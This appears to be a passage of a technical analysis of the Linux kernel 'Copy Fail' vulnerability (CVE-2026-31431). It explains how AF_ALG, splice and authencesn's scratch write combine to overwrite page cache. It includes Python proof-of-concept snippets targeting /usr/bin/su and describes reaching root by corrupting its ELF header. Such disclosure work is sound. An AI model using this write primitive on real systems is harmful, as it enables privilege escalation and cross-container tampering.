







> *From an optimization commit in the Crypto subsystem to arbitrary file page cache overwrite, 9 years later*

## 1. Introduction

In late April 2026, security researcher [Taeyang Lee](https://xint.io/blog/copy-fail-linux-distributions) publicly disclosed a Linux kernel vulnerability assigned [CVE-2026-31431](https://nvd.nist.gov/vuln/detail/CVE-2026-31431), giving it a rather ironic name — **[Copy Fail](https://copy.fail/)**.

The name precisely captures the essence of the vulnerability: in 2017, a kernel developer introduced an in-place optimization to fix a bug in the AF_ALG crypto interface where "AAD data was not copied from src to dst." The optimization itself was perfectly reasonable, but it inadvertently broke a long-standing implicit assumption in another module (`authencesn`) within the kernel crypto subsystem — "the destination buffer is contiguous kernel memory, and writing a few bytes to it causes no side effects."

When these two independent subsystems converge with the **Page Cache** through `splice()`, an unprivileged local user can write 4 bytes of controlled data to the page cache of **any readable file** on the system.

This is not a typical out-of-bounds write or UAF. Its impact is far more subtle and far-reaching:

- **Local privilege escalation**: Overwrite the ELF header of `/usr/bin/su` with repeated calls → root shell
- **Zero-privilege cross-container attack**: Containers in different namespaces on the same host share image layer page cache → one container can corrupt another container's binaries
- **Bypassing read-only mounts**: Files only need to be opened with `O_RDONLY` to trigger page cache writes → readOnly volumes are rendered meaningless
- **Default security configurations completely defeated**: Docker/Kubernetes default seccomp profiles and SELinux targeted policies do not block exploitation

The vulnerability affects all mainstream Linux distribution kernels between 2017 and 2026 ([CVSS 7.8 High](https://nvd.nist.gov/vuln/detail/CVE-2026-31431)), remaining dormant for nearly 9 years.

> **ℹ️ Timeline**
> | Date | Event |
> |------|------|
> | 2011 | `authencesn` module introduced; ESN scratch write is completely harmless in the context at the time |
> | 2015 | AF_ALG gains AEAD + splice support, but uses out-of-place approach |
> | 2017-07 | Commit [`72548b093ee3`](https://github.com/torvalds/linux/commit/72548b093ee3) introduces in-place optimization → **vulnerability is born** |
> | 2026-03-23 | Vulnerability reported to Linux kernel security team |
> | 2026-04-01 | Patch [`a664bf3d603d`](https://github.com/torvalds/linux/commit/a664bf3d603dc3bdcf9ae47cc21e0daec706d7a5) merged into mainline |
> | 2026-04-22 | CVE-2026-31431 assigned |
> | 2026-04-29 | Public disclosure |
> | 2026-05-01 | [CISA adds to KEV catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog?field_cve=CVE-2026-31431), remediation deadline 2026-05-15 |
> | 2026-05-04 | Docker [29.4.2 default seccomp blocks AF_ALG](https://github.com/moby/moby/pull/52494); RHEL 9/10 kernel patches released |
> | 2026-05-06 | Docker [29.4.3 fixes regression](https://github.com/moby/moby/releases/tag/docker-v29.4.3), switches to AppArmor/SELinux to block AF_ALG; RHEL 8 patch released |
> | 2026-05-07 | [Dirty Frag](https://dirtyfrag.io/) (CVE-2026-43284/43500) publicly disclosed, a related class of vulnerabilities affecting ESP/RxRPC subsystems |

This article starts with the prerequisite knowledge for triggering the vulnerability, then progressively dives into root cause analysis, PoC principles and kernel-level dynamic verification. It then systematically explores host privilege escalation and various attack paths in container environments along with their feasibility boundaries, and finally presents defense strategies and a page cache integrity detection scheme based on `O_DIRECT` + `fanotify`.

---

## 2. Background

Understanding Copy Fail requires several prerequisite concepts. They have layered dependencies:

```
Scatterlist (SGL)    AEAD Crypto            Page Cache
     |                |       |                |
scatterwalk        AAD    authencesn        splice()
     |                |       |                |
     +--------+-------+       |                |
              |                |                |
          AF_ALG --------------+                |
              |                                 |
          algif_aead ----------------------------+
```

Let's go through them one by one.

### 2.1 Page Cache: Linux's Global File Cache

When a process reads `/usr/bin/cat` via `read()`, the kernel doesn't fetch data from disk every time. It first checks a memory region called the **Page Cache** — if the corresponding pages of the file are already cached in memory, the cached data is returned directly.

Several key properties of the Page Cache are directly relevant to this vulnerability:

**Globally shared**. The Page Cache is indexed by `(inode, page_offset)` as a key and does not belong to any specific process. All processes on the same machine that access the same inode will hit the same page cache. After process A loads a file into page cache via `read()`, process B reading the same file hits the cache directly without accessing disk again.

**Write-back mechanism**. For modifications made through the normal `write()` path, the kernel marks the corresponding page as dirty, and a write-back thread (pdflush / writeback) later asynchronously flushes it to disk. However, if a **kernel path bypasses the VFS layer** and directly modifies a page cache page, the dirty flag is not set — the modification exists only in memory and is lost after a reboot or `drop_caches`.

**Instantly visible**. Once a page in the page cache is modified (through any path), all subsequent `read()` calls will immediately see the modified content. This includes other processes on the same machine, as well as processes in container environments that share the same underlying inode via overlayfs (see Section 6.1 for details).



### 2.2 Scatterlist: Scatter-Gather Lists

In the kernel, a logically contiguous block of data (e.g., a 10KB encryption payload) is typically spread across multiple non-contiguous 4KB pages in physical memory. To describe "which pages at which offsets compose this data," the kernel uses **Scatterlist** (SGL, scatter-gather list).

Each `struct scatterlist` entry describes a contiguous region of physical memory:

```c
struct scatterlist {
    unsigned long   page_link;  // Points to page struct (or CHAINs to next SGL array)
    unsigned int    offset;     // Starting offset within the page
    unsigned int    length;     // Data length
};
```

When a single SGL array is not enough, the **SG_CHAIN** mechanism can link multiple arrays: the last entry's `page_link` no longer points to a data page but instead points to the starting address of the next SGL array. When traversing an SGL, the `scatterwalk` iterator transparently handles this chained structure.

This design itself is not problematic. But when some entries in the SGL point not to ordinary kernel-allocated memory but to **pages in the page cache**, write operations on the SGL are equivalent to directly modifying the cached content of a file — this is the core exploitation point of Copy Fail.


### 2.3 splice: The Cost of Zero-Copy

`splice()` is a high-performance data transfer system call provided by Linux. Its core idea is to avoid copying data back and forth between kernel space and user space — by directly moving **page references** between kernel pipe buffers.

The ordinary `read()` + `write()` flow requires copying file data to a user-space buffer, then copying from the user-space buffer to the destination. `splice()` directly passes the file's page cache page references to the other end of the pipe, with no data copy occurring throughout the process.



In the AF_ALG crypto interface, `splice()` is used to "feed" file data to the encryption algorithm. At this point, the file's **page cache pages are placed directly into the TX SGL** — the `page_link` in these SGL entries directly points to globally shared page cache pages. This is a critical design decision: if any subsequent code path writes data to this SGL, it is equivalent to directly modifying the file's page cache.

### 2.4 AF_ALG: User-Space Crypto Interface

The Linux kernel provides a set of cryptographic APIs that user space can use directly, called **AF_ALG** (Address Family: Algorithm). Its interface is designed in a socket-style fashion:

```python
import socket, os

AF_ALG = 38
SOL_ALG = 279

# 1. Create an AF_ALG socket, specifying the encryption algorithm to use
alg_sock = socket.socket(AF_ALG, socket.SOCK_SEQPACKET, 0)
# Bind the algorithm name, e.g., AEAD type gcm(aes)
alg_sock.bind(("aead", "gcm(aes)"))
alg_sock.setsockopt(SOL_ALG, 1, key_bytes)    # ALG_SET_KEY: set the key
alg_sock.setsockopt(SOL_ALG, 4, None, 16)     # ALG_SET_AEAD_AUTHSIZE: set auth tag size

# 2. accept to obtain an operation socket
op_sock = alg_sock.accept()[0]

# 3. Send data to encrypt/decrypt via sendmsg
#    cmsg specifies operation type (encrypt/decrypt), IV, AAD length, etc.
op_sock.sendmsg([plaintext_data], control_messages)

# 4. recv to get encrypt/decrypt results (kernel performs actual crypto here)
result = op_sock.recv(output_buffer_size)
```

AF_ALG also supports using `splice()` to feed file contents directly to the encryption algorithm, avoiding data copying between kernel space and user space. This feature is key to the Copy Fail exploit chain: file data entering via splice is stored in the TX SGL as page cache page references, not as data copies.

Inside the kernel, `algif_aead.c` handles AEAD-type encryption requests. It manages the TX SGL (data sent by the user) and RX SGL (user receive buffer), and ultimately calls the underlying encryption algorithm (such as `authencesn`) to perform the actual encrypt/decrypt operations.

### 2.5 AEAD Authenticated Encryption and authencesn's Scratch Write

**AEAD** (Authenticated Encryption with Associated Data) is a class of encryption schemes that simultaneously provide confidentiality and integrity guarantees. The data format it processes is:

```
Input:  AAD (Associated Data) || Ciphertext || Auth Tag
Output: AAD || Plaintext
```

Where AAD is plaintext associated data (not encrypted but participates in authentication), Ciphertext is the encrypted data, and Auth Tag is the authentication tag.

**authencesn** is an AEAD algorithm implementation in the Linux kernel, full name "authenc with Extended Sequence Number," designed for IPsec's ESN (Extended Sequence Number) protocol.

**What AAD Means**

In AEAD encryption, AAD (Associated Data) is "additional data that needs to be authenticated but not encrypted." For example, in TLS, AAD is the record header (content type, protocol version, data length); in IPsec, AAD includes the Security Parameter Index and sequence number. The specific content of AAD varies across scenarios, but the AEAD algorithm only needs to know "the first `assoclen` bytes are AAD."

**Why authencesn Writes to the dst Buffer**

The ESN protocol uses a 64-bit sequence number (to prevent wrap-around attacks), but only the low 32 bits are transmitted over the network; the high 32 bits are maintained locally by both communicating parties. authencesn needs to include the full 64-bit sequence number during HMAC calculation. Its approach is:

1. Place the high 32 bits of the sequence number in AAD[4:8]
2. Before computing HMAC, **temporarily write** AAD[4:8] to the position in the dst buffer where the auth tag originally resides (so the HMAC calculation covers the full sequence number)
3. Restore the original value after HMAC completes

This "temporary write" is the so-called **ESN scratch write**:

```c
// crypto/authencesn.c - crypto_authenc_esn_decrypt()

// Read the first 8 bytes from AAD
scatterwalk_map_and_copy(tmp, req->dst, 0, 8, 0);
// In the IPsec scenario: tmp[0] = SPI, tmp[1] = SeqNo_Hi

unsigned int cryptlen = req->cryptlen;
cryptlen -= authsize;  // Locate the start of the auth tag area

// Temporarily write AAD[4:8] to the tag area in dst for HMAC calculation
scatterwalk_map_and_copy(tmp + 1, req->dst, assoclen + cryptlen, 4, 1);
//                       ^^^^^^^^                                ^
//                    AAD[4:8]                               4 bytes, 1=write direction
```

The write size is **hardcoded at 4 bytes** (`sizeof(u32)`), and the written value comes from AAD[4:8].

In the normal IPsec scenario, `req->dst` points to a contiguous buffer allocated by the kernel via `kmalloc`, and AAD[4:8] is legitimate sequence number data. The temporary write and restoration are completely harmless.

**The Attack Surface Opened by AF_ALG**

However, through the AF_ALG interface, **user space can directly invoke the authencesn algorithm and fully control the content of AAD**. authencesn performs no validation — it does not care whether AAD[4:8] is an actual ESN sequence number; it mechanically writes these 4 bytes to a fixed offset in dst.

As long as you place the data you want to write to page cache into AAD[4:8], authencesn will faithfully write it to the fixed offset in dst.

So the question becomes — what if `req->dst` contains not kmalloc buffers, but **page cache pages**?

---

## 3. Root Cause Analysis

### 3.1 Vulnerability Introduction: A Reasonable Optimization

In July 2017, kernel developer Stephan Mueller submitted commit [`72548b093ee3`](https://github.com/torvalds/linux/commit/72548b093ee3), titled "crypto: algif_aead - copy AAD from src to dst".

This commit addressed a real bug. Prior to this change, the `algif_aead` decryption path used **out-of-place** mode:

```c
// Before 2017: out-of-place
aead_request_set_crypt(&areq->aead_req,
                       areq->tsgl,              // req->src = TX SGL (input data)
                       areq->first_rsgl.sgl.sg, // req->dst = RX SGL (user receive buffer)
                       used, ctx->iv);
```

The TX SGL contains all data sent by the user via `sendmsg()` and `splice()` (AAD + ciphertext + authentication tag), while the RX SGL points to the user-space receive buffer. The AEAD specification requires the decryption output to include the AAD, but the underlying algorithm only processes the ciphertext portion — the AAD must be copied from src to dst by the caller. The old `algif_aead` did not perform this copy, causing the AAD region in the user's output to be all zeros.

The fix in commit `72548b093ee3` consisted of three steps:

1. **Copy AAD + ciphertext from TX SGL to the RX buffer** (`memcpy_sglist`), so the AAD appears in the output
2. **Chain the page(s) containing the authentication tag from the TX SGL to the tail of the RX SGL via `sg_chain()`** — because AEAD decryption needs to read the tag for authentication verification; the tag is not part of the output but must be reachable in the dst SGL
3. **Set `req->src = req->dst = RX SGL`** (at this point, the RX SGL contains AAD + ciphertext + chained tag pages)

```c
// Post-2017 vulnerable code (in-place)
// Step 1: Copy AAD+ciphertext to RX buffer
memcpy_sglist(rsgl, tsgl_src, outlen);  // outlen = assoclen + cryptlen - authsize

// Step 2: Extract tag pages from TX SGL
af_alg_pull_tsgl(sk, processed, areq->tsgl, processed - as);
// Step 3: Chain to the tail of RX SGL
sg_chain(rsgl_sg, rsgl_nents, areq->tsgl);

// Step 4: in-place — src and dst both point to this combined RX SGL
aead_request_set_crypt(&areq->aead_req,
                       rsgl_src,   // req->src = RX SGL (with chained tag pages)
                       rsgl_dst,   // req->dst = RX SGL (the same one!)
                       used, ctx->iv);
```

Functionally, this perfectly solved the AAD copy problem. But the issue lies in the **tag pages** extracted in Step 2 — they come from the TX SGL, and data entering the TX SGL via `splice()` directly references the file's page cache pages. These page cache pages are now chained into `req->dst`.

### 3.2 Conflicting Design Assumptions

The essence of the problem is an **implicit assumption conflict** between two subsystems that was never explicitly specified:

| Subsystem | Assumption |
|-----------|------------|
| `authencesn` ([2011](https://github.com/torvalds/linux/commit/a5079d084f8b)) | `req->dst` is a contiguous kmalloc buffer; scratch writes have no side effects |
| `algif_aead` optimization ([2017](https://github.com/torvalds/linux/commit/72548b093ee3)) | `req->dst` tail has page cache pages chained in from the TX SGL via sg_chain |

In all other call sites of authencesn (primarily IPsec/xfrm), dst is indeed a kernel-allocated contiguous buffer. The `algif_aead` in-place optimization was the first (and only) code path that placed page cache pages into the `req->dst` SGL.

### 3.3 Complete Trigger Path



Now let's walk through the entire vulnerability trigger process from start to finish. Assume the goal is to write 4 bytes of controlled data at offset `t` in a target file.

**Step 1: User-Space Data Transmission**

The following parameters are set during exploitation:
- `assoclen = 8` (AAD length, specified via sendmsg control message)
- `authsize = 4` (authentication tag size, set via `setsockopt(ALG_SET_AEAD_AUTHSIZE)`)

Data is then sent to the AF_ALG socket in two steps:

```python
# 4 bytes to write
evil_bytes = b'\xde\xad\xbe\xef'

# Step 1: Send 8 bytes of AAD via sendmsg
# AAD[0:4] = arbitrary padding, AAD[4:8] = data to write to page cache
# authencesn will write AAD[4:8] as the ESN seqno_lo into the scratch area
aad = b'\x00\x00\x00\x00' + evil_bytes   # 8 bytes
op.sendmsg([aad], cmsg, MSG_MORE)  # MSG_MORE: more data follows

# Step 2: Splice the first t+4 bytes of the target file into the AF_ALG socket
# splice passes page cache page references directly, no data copy
pipe_r, pipe_w = os.pipe()
target_fd = os.open("/usr/bin/su", os.O_RDONLY)
os.splice(target_fd, pipe_w, t + 4, offset_src=0)  # file → pipe
os.splice(pipe_r, op.fileno(), t + 4)               # pipe → AF_ALG socket
```

**Step 2: TX SGL Layout**

After both sends, the TX SGL in the kernel contains:

```
TX SGL:
+--------------------+----------------------------------------+
| sendmsg data (8B)  | splice data (t+4 bytes)                |
| AAD: 4 zero bytes  | file[0:t+4]                            |
|      + evil_bytes  | page cache page refs via splice        |
|  (kmalloc memory)  | (points to GLOBAL SHARED page cache!)  |
+--------------------+----------------------------------------+
```

Interpreting this contiguous data from the AEAD decryption perspective:

- **AAD** = first `assoclen=8` bytes = the `\x00\x00\x00\x00` + `evil_bytes` sent via sendmsg
- **Ciphertext** = middle `t` bytes = file[0:t] (the first t bytes of the file are treated as "ciphertext")
- **Auth Tag** = last `authsize=4` bytes = file[t:t+4]

Total bytes = 8 + t + 4 = t + 12.

**Step 3: recv Triggers Decryption → In-Place SGL Construction**

Calling `recv()` triggers `_aead_recvmsg()`. The vulnerable code performs the following operations:

```
outlen = assoclen + (cryptlen - authsize) = 8 + ((t+4) - 4) = t + 8

(1) memcpy_sglist(RX buffer, TX SGL, outlen=t+8):
    Copy first t+8 bytes of TX SGL to RX buffer (user-space allocated memory)
    RX buffer contents:
      [0:8]   = copy of AAD (sendmsg data)
      [8:8+t] = copy of file[0:t] (ciphertext portion)
    Note: this is a DATA COPY, not a page reference

(2) af_alg_pull_tsgl(TX SGL, skip=t+8, take=4):
    Skip first t+8 bytes of TX SGL, extract last 4 bytes (tag region)
    These 4 bytes in TX SGL correspond to file[t:t+4] from splice
    -> SGL entry: { page = file's page cache page, offset = t%4096, length = 4 }
    -> This is the ORIGINAL page cache reference, NOT a copy!

(3) sg_chain(RX SGL tail, tag SGL):
    Chain the tag page reference to the end of RX SGL
```

The final combined dst SGL (which is also src) layout:

```
combined dst SGL (= req->src = req->dst):

+-- RX buffer (user-space, SAFE) ----+  +-- chained tag (PAGE CACHE!) ------+
|                                    |  |                                   |
| AAD (8B)  |  ciphertext (tB)       |->|  file[t:t+4] in page cache       |
|           |  = copy of file[0:t]   |  |  original page ref from splice   |
|                                    |  |                                   |
+-- offset 0                t+8 -----+  +-- offset t+8               t+12 -+
```

The key point: **the RX buffer portion is kernel-allocated user-space memory (safe), but the chained tag pages at the tail are the original page cache page references from the file**.

**Step 4: authencesn's Scratch Write → Hits Page Cache**

`crypto_authenc_esn_decrypt()` begins execution. The target position for the ESN scratch write is calculated as:

```c
// crypto_authenc_esn_decrypt() scratch write:

// First read AAD[0:8]
scatterwalk_map_and_copy(tmp, req->dst, 0, 8, 0);  // tmp[0]=AAD[0:4], tmp[1]=AAD[4:8]

unsigned int cryptlen = req->cryptlen;  // = t + 4 (ciphertext + tag length)
cryptlen -= authsize;                   // = t + 4 - 4 = t

// Write tmp[1] (= AAD[4:8] = evil_bytes) to dst[assoclen + cryptlen]
scatterwalk_map_and_copy(tmp + 1, req->dst, assoclen + cryptlen, 4, 1);
//                       ^^^^^^^^                  ^^^^^^^^^^^^^^^^  ^
//                    = AAD[4:8]                   = 8 + t          write direction
//                    = evil_bytes
```

The write position is offset `8 + t` in the dst SGL. Comparing with the combined SGL layout above:

- The RX buffer portion occupies [0, t+8), totaling t+8 bytes
- The chained tag pages start at offset t+8

`8 + t` is exactly the boundary of the RX buffer, which is the **starting position of the chained tag pages**.

The tag pages are the original page cache reference of file[t:t+4]. So the scratch write targets 4 bytes at offset `t` in the file's page cache.

The written value = `tmp[1]` = AAD[4:8] = the `evil_bytes` passed in via sendmsg.

**At this point, the chain is complete: the write position is controlled by the splice length (which determines t), and the written content is controlled by AAD[4:8] from sendmsg. Both are parameters that user space can freely specify.**

**Why is the write irreversible?**

